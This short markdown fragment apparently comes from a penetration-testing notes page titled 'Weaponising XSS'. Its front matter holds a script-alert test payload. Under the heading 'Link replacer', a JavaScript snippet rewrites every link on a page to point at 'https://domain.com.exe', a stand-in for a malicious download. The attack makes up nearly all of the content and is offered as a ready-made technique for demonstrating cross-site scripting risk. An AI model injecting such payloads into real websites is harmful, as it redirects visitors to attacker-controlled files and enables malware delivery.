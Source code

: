 ```yaml
---
description: 1 up your <script>alert(1)</script> and effectively demonstrate risk
---
```


# Weaponising XSS

Link replacer

```text
for (var i = 0; i < document.links.length; i++) {
  var a = document.links[i];
  a.href = 'https://domain.com.exe';
}
```


